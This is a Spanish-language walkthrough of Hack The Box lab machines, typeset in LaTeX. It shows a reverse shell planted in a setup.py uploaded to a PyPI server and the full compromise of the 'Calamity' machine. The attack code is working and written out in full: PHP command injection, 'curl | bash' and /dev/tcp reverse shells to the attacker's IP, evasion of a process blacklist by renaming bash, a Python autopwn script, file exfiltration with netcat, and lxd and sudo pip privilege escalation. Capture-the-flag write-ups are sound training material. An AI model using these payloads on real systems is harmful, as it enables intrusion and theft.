\NormalTok{os.dup2(s.fileno(),}\DecValTok{2}\NormalTok{)}
\NormalTok{p}\OperatorTok{=}\NormalTok{subprocess.call([}\StringTok{"/bin/sh"}\NormalTok{,}\StringTok{"-i"}\NormalTok{])}

\NormalTok{setuptools.setup(}
\NormalTok{    name}\OperatorTok{=}\StringTok{"example-pkg-YOUR-USERNAME-HERE"}\NormalTok{,}
\NormalTok{    version}\OperatorTok{=}\StringTok{"0.0.1"}\NormalTok{,}
\NormalTok{    author}\OperatorTok{=}\StringTok{"Example Author"}\NormalTok{,}
\NormalTok{    author_email}\OperatorTok{=}\StringTok{"author@example.com"}\NormalTok{,}
\NormalTok{    description}\OperatorTok{=}\StringTok{"A small example package"}\NormalTok{,}
\NormalTok{    long_description_content_type}\OperatorTok{=}\StringTok{"text/markdown"}\NormalTok{,}
\NormalTok{    url}\OperatorTok{=}\StringTok{"https://github.com/pypa/sampleproject"}\NormalTok{,}
\NormalTok{    classifiers}\OperatorTok{=}\NormalTok{[}
        \StringTok{"Programming Language :: Python :: 3"}\NormalTok{,}
        \StringTok{"License :: OSI Approved :: MIT License"}\NormalTok{,}
        \StringTok{"Operating System :: OS Independent"}\NormalTok{,}
\NormalTok{    ],}
\NormalTok{    python_requires}\OperatorTok{=}\StringTok{">=3.6"}\NormalTok{,}
\NormalTok{)}
\end{Highlighting}
\end{Shaded}

La idea aqui es que cuando el pypi server ejecute el setup.py, queremos que nos entable una reverse shell. El codigo
de la reverse shell es de \textbf{monkey pentester} y la hemos retocado para que vaya en el fichero \texttt{setup.py}.

Configuramos el equipo para poder enviar el paquete al repositorio victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{rm}\NormalTok{ ~/.pypirc}
\ExtensionTok{vi}\NormalTok{ ~/.pypirc}
\end{Highlighting}
\end{Shaded}

El contenido del fichero \texttt{.pypirc} seria

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{distutils}\NormalTok{]}
\ExtensionTok{index-servers}\NormalTok{ = remote}

\NormalTok{[}\ExtensionTok{remote}\NormalTok{]}
\ExtensionTok{repository}\NormalTok{ = http://pypi.sneakycorp.htb:8080}
\ExtensionTok{username}\NormalTok{ = pypi}
\ExtensionTok{password}\NormalTok{ = soufianeelhaoui}
\end{Highlighting}
\end{Shaded}

Ahora podemos enviarlo

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos el paquete al pypi server

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ setup.py sdist upload -r remote}
\end{Highlighting}
\end{Shaded}
\item
  Tenemos una shell pero primero nos a ejecutado desde nuestro proprio equipo

  \begin{itemize}
  \item
    no ponemos una vez mas en escucha al puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
  \item
    en el primero shell le damos a exit
  \end{itemize}
\end{enumerate}

Y ya esta

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{Law}
\end{Highlighting}
\end{Shaded}

Ya le podemos hacer un nuevo tratamiento de la TTY.

\hypertarget{privilege-escalation-4}{%
\section*{Privilege Escalation}\label{privilege-escalation-4}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

vemos aqui que podemos utilizar la heramienta pip3 con el privilegio del usuario root sin proporsionar contraseña.

Miramos en \href{https://gtfobins.github.io/gtfobins/pip/\#sudo}{GTFOBINS}

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{TF=$(}\FunctionTok{mktemp}\NormalTok{ -d}\VariableTok{)}
\BuiltInTok{echo} \StringTok{"import os; os.execl('/bin/sh', 'sh', '-c', 'sh <}\VariableTok{$(}\ExtensionTok{tty}\VariableTok{)}\StringTok{ >}\VariableTok{$(}\ExtensionTok{tty}\VariableTok{)}\StringTok{ 2>}\VariableTok{$(}\ExtensionTok{tty}\VariableTok{)}\StringTok{')"} \OperatorTok{>} \VariableTok{$TF}\NormalTok{/setup.py}
\ExtensionTok{pip3}\NormalTok{ install }\VariableTok{$TF}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{calamity}{%
\chapter*{Calamity}\label{calamity}}
\addcontentsline{toc}{chapter}{Calamity}

\hypertarget{introduccion-5}{%
\section*{Introduccion}\label{introduccion-5}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 28/07/2021 se llama Calamity
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=sREANcb8H1Q}{\includegraphics{https://img.youtube.com/vi/sREANcb8H1Q/0.jpg}}

No olvideis the dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-5}{%
\section*{Enumeracion}\label{enumeracion-5}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-5}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-5}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-5}{%
\subsubsection*{Ping}\label{ping-5}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.27}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap-5}{%
\subsubsection*{Nmap}\label{nmap-5}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.27 -oG allports}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
80 & http & Analizis de la web y Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web}{%
\subsection*{Analyzando la web}\label{analyzando-la-web}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-3}{%
\subsubsection*{Whatweb}\label{whatweb-3}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.197}
\end{Highlighting}
\end{Shaded}

\hypertarget{http-enum}{%
\subsubsection*{http-enum}\label{http-enum}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.27 -oN webScan}
\end{Highlighting}
\end{Shaded}

Ya nos detecta un \texttt{/admin.php} y un directorio \texttt{/uploads/}

\hypertarget{checkear-la-web-del-puerto-80}{%
\subsubsection*{Checkear la web del puerto 80}\label{checkear-la-web-del-puerto-80}}
\addcontentsline{toc}{subsubsection}{Checkear la web del puerto 80}

Abrimos la web y vemos cosas:

\begin{itemize}
\tightlist
\item
  El wappalizer no nos dice nada
\item
  parece que todavia la web esta en fase de desarollo
\item
  el directorio \texttt{/uploads/} muestra una capacidad de directory listing pero no se ve gran cosa
\item
  el \texttt{/admin.php} nos muestra un login.
\item
  haciendo un \texttt{Ctrl-U} no muestra una contraseña en un commentario ;)
\end{itemize}

\hypertarget{vulnerability-assessment-5}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-5}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{checkeamos-las-vulnerabilidades-de-la-pagina-admin.php}{%
\subsection*{Checkeamos las vulnerabilidades de la pagina admin.php}\label{checkeamos-las-vulnerabilidades-de-la-pagina-admin.php}}
\addcontentsline{toc}{subsection}{Checkeamos las vulnerabilidades de la pagina admin.php}

Ya con el usuario admin y la contraseña encontrada nos podemos loggear.

Vemos un input donde podemos poner codigo \textbf{HTML}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Hola}
\OperatorTok{<}\ExtensionTok{h1}\OperatorTok{>}\NormalTok{Hola}\OperatorTok{<}\NormalTok{/h1}\OperatorTok{>}
\OperatorTok{<}\ExtensionTok{marquee}\OperatorTok{>}\NormalTok{Hola}\OperatorTok{<}\NormalTok{/marquee}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Functiona\ldots{} Intentamos ponerle codigo \textbf{PHP}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"whoami"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

y tambien functiona\ldots{}

Aqui decidimos crear una reverse shell para connectarnos al servidor.

\hypertarget{vuln-exploit-gaining-access-5}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-5}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{crear-una-reverse-shell-con-una-pagina-html}{%
\subsection*{Crear una reverse shell con una pagina html}\label{crear-una-reverse-shell-con-una-pagina-html}}
\addcontentsline{toc}{subsection}{Crear una reverse shell con una pagina html}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un index.html

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.28/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servicio http por el puerto 80

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la web, le damos un curl a nuestra maquina

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"curl 10.10.14.28"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Escuchamos por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos la reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"curl 10.10.14.28 | bash"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

La connection se entabla pero el servidor nos expulsa directamente.

\hypertarget{creamos-una-fakeshell}{%
\subsection*{Creamos una FakeShell}\label{creamos-una-fakeshell}}
\addcontentsline{toc}{subsection}{Creamos una FakeShell}

En el directorio exploits creamos un fichero \texttt{fakeShell.sh} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{function}\FunctionTok{ ctrl_c()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n\textbackslash{}n[!] Saliendo...\textbackslash{}n"}
    \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\CommentTok{# Ctrl+C}
\BuiltInTok{trap}\NormalTok{ ctrl_c INT}

\CommentTok{# Variables globales}
\VariableTok{main_url=}\StringTok{"http://10.10.10.27/admin.php"}

\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do}
    \BuiltInTok{echo}\NormalTok{ -n }\StringTok{"[~] "} \KeywordTok{&&} \BuiltInTok{read}\NormalTok{ -r }\VariableTok{command}
    \BuiltInTok{echo}\KeywordTok{;} \ExtensionTok{curl}\NormalTok{ -s -G }\VariableTok{$main_url}\NormalTok{ --data-urlencode }\StringTok{"html=<?php system(}\DataTypeTok{\textbackslash{}"}\VariableTok{$command}\DataTypeTok{\textbackslash{}"}\StringTok{); ?>"}\NormalTok{ --cookie }\StringTok{"adminpowa=noonecares"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"\textbackslash{}/body"}\NormalTok{ -A 500 }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"\textbackslash{}/body"}\KeywordTok{;} \BuiltInTok{echo}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} Notas: Las explicaciones del script se pueden ver en el video live en el minuto 50:19
\end{quote}

Tambien se podri utilizar la heramienta creada por s4vitar \href{https://github.com/s4vitar/ttyoverhttp}{ttyoverhttp}

\hypertarget{analyzando-el-servidor}{%
\subsection*{Analyzando el servidor}\label{analyzando-el-servidor}}
\addcontentsline{toc}{subsection}{Analyzando el servidor}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\ExtensionTok{ifconfig}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l /home}
\FunctionTok{ls}\NormalTok{ -l /home/xalvas}
\FunctionTok{cat}\NormalTok{ /home/xalvas/user.txt}
\end{Highlighting}
\end{Shaded}

Encontramos el usuario \textbf{xalvas} y ya podemos leer la flag.

La pregunta aqui seria: Porque no nos deja entablar una reverse shell? Porque el systema nos expulsa cuando lo hacemos?

El commando \texttt{ls\ -l\ /home/xalvas} nos muestra ficheros. En el fichero \texttt{intrusions} vemos lo siguiente

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ /home/xalvas/intrusions}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/calamity-intrusions} \caption{fichero intrusions}\label{fig:unnamed-chunk-11}
\end{figure}

Vemos que el commando \texttt{nc} esta BlackListeado y que loggea el Proccess Kill en este fichero. El problema de esto es que se puede
que los commandos BlackListeados se controllan con los nombres mismo (no permite \texttt{nc,\ python,\ bash}). Pero que passa si copiamos el
binario bash y que le ponemos un nombre differente.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443 en la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp}\NormalTok{ /bin/bash /dev/shm/s4vitar}
\FunctionTok{ls}\NormalTok{ /dev/shm/s4vitar}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/TCP/10.10.14.20/443} \OperatorTok{0>&1}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -c }\StringTok{"/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -c }\StringTok{'/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.

\hypertarget{tratamiento-de-la-tty-5}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-5}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{creacion-del-autopwn-en-python}{%
\subsection*{Creacion del autopwn en python}\label{creacion-del-autopwn-en-python}}
\addcontentsline{toc}{subsection}{Creacion del autopwn en python}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ threading}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://10.10.10.27/admin.php"}
\NormalTok{burp }\OperatorTok{=}\NormalTok{ \{}\StringTok{'http'}\NormalTok{: }\StringTok{'http://127.0.0.1:8080'}\NormalTok{\}}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    headers }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'Cookie'}\NormalTok{: }\StringTok{'adminpowa=noonecares'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%20s}\StringTok{ystem(}\CharTok{\textbackslash{}"}\StringTok{cp%20/bin/bash%20/dev/shm/s4vitar}\CharTok{\textbackslash{}"}\StringTok{);%20?>"}\NormalTok{, headers}\OperatorTok{=}\NormalTok{headers)}
\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%20s}\StringTok{ystem(}\CharTok{\textbackslash{}"}\StringTok{chmod%20+x%20/dev/shm/s4vitar}\CharTok{\textbackslash{}"}\StringTok{);%20?>"}\NormalTok{, headers}\OperatorTok{=}\NormalTok{headers)}
\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%20s}\StringTok{ystem(}\CharTok{\textbackslash{}"}\StringTok{/dev/shm/s4vitar%20-c%20'/dev/shm/s4vitar%20-i%20>}\SpecialCharTok\StringTok{20/dev/tcp/10.10.14.20/443%200>%261'}\CharTok{\textbackslash{}"}\StringTok{);%20?>"}\NormalTok{, headers}\OperatorTok{=}\NormalTok{headers)}

    \BuiltInTok{print}\NormalTok{(r.text)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest,args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{10}\NormalTok{).wait_for_connection()}

\NormalTok{    shell.interactive()}
\end{Highlighting}
\end{Shaded}

Ya lo podemos lanzar con el commando \texttt{python3\ autopwn.py}

\begin{quote}
{[} ! {]} Notas las explicaciones paso a paso del autopwn se pueden ver en el video al minuto 1:06:21
\end{quote}

\hypertarget{investigamos-la-maquina-3}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-3}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

Ya hemos visto una lista de archivos en el repertorio de xalvas y uno es un fichero \texttt{.wav}. Nos lo enviamos
a nuestra maquina de attackante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ recov.wav}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp}\NormalTok{ /bin/nc /dev/shm/transfer}
\FunctionTok{chmod}\NormalTok{ +x /dev/shm/transfer}
\ExtensionTok{/dev/shm/transfer}\NormalTok{ 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ recov.wav}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Hay otros ficheros de typo \texttt{.wav}, usando la misma technica nos lo enviamos tambien.
Checkeamos que los ficheros no sa hayan compormetido durante el transfer con \texttt{md5sum}. Los ficheros \texttt{.wav} son ficheros
de typo audio y se pueden escuchar con el commando \texttt{play\ recov.wav}

No os assusteis con la musiquita ;)

Escuchando los otros ficheros parece que el fichero \texttt{rick.wav} sea la misma cancion y esto es raro. Si le hacemos un \texttt{md5sum\ recov.wav\ rick.wav},
vemos que la cancion es la misma pero el \textbf{md5sum} no. Quiere decir que la integridad de la data de uno de estos ficheros a sido manipulada.

\hypertarget{reto-de-steganografia-con-audoacity}{%
\subsection*{Reto de steganografia con Audoacity}\label{reto-de-steganografia-con-audoacity}}
\addcontentsline{toc}{subsection}{Reto de steganografia con Audoacity}

\textbf{Audacity} es una heramienta de audio que se puede installar con \texttt{apt\ install\ audacity}. Lo abrimos y cargamos los dos ficheros.
Si nos dan 2 audios que parrecen se los mismos pero hemos visto con el \textbf{md5sum} que no son iguales, Una cosa que se puede hacer es
lanzar un audio de manera normal y al mismo tiempo con el segundo audio, invertir la onda del audio. Si hacemos esto y que los dos ficheros
son ciertamente iguales, no tendriamos que escuchar nada. Lo unico, en este caso que se tendria que escuchar seria las differencias ente
los dos audios.

\begin{quote}
{[} ! {]} Notas para ver como invertir las ondas de un audio, podeis mirrar el video al minuto 1:31:00
\end{quote}

Ya tenemos una contraseña.

Intentamos ponerle la contraseña al usuario xalvas y entramos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{su}\NormalTok{ xalvas}
\ExtensionTok{Password}\NormalTok{: }\OperatorTok{<}\NormalTok{la contraseña}\OperatorTok{>}
\FunctionTok{whoami}
\CommentTok{#Output }
\ExtensionTok{xalvas}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-5}{%
\section*{Privilege Escalation}\label{privilege-escalation-5}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-1}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-1}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

En este punto vemos que el usuario xalvas esta en el grupo \textbf{lxd} y ya tenemos la possibilidad de escalar privilegios con esto.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ lxd}
\ExtensionTok{searchsploit}\NormalTok{ -x 46978}
\end{Highlighting}
\end{Shaded}

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{uname}\NormalTok{ -a}
\end{Highlighting}
\end{Shaded}

Seguimos los passos del exploit

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine}
\FunctionTok{chmod}\NormalTok{ +x build-alpine}
\ExtensionTok{./build-alpine} \CommentTok{# --> para maquinas x64}
\ExtensionTok{./build-alpine}\NormalTok{ -a i686 }\CommentTok{# --> para maquinas i686}
\ExtensionTok{searchsploit}\NormalTok{ -m 46978}
\FunctionTok{mv}\NormalTok{ 46978.sh lxd_privesc.sh}
\ExtensionTok{dos2unix}\NormalTok{ lxd_privesc.sh}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz}
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/lxd_privesc.sh}
\FunctionTok{chmod}\NormalTok{ +x lxd_privesc.sh}
\ExtensionTok{./lxd_privesc.sh}\NormalTok{ -f alpine-v3-14-i686-20210728_2134.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  vemos un error \texttt{error:\ This\ must\ be\ run\ as\ root}. Modificamos el fichero lxd\_privesc.sh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ lxd_privesc.sh}
\end{Highlighting}
\end{Shaded}

  en la function createContainer(), borramos la primera linea:

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{# lxc image import $filename --alias alpine && lxd init --auto}
\end{Highlighting}
\end{Shaded}
\item
  Ya estamos root pero en el contenedor. Modificamos la \texttt{/bin/bash} de la maquina

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/root}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}


% Index?

\end{document}

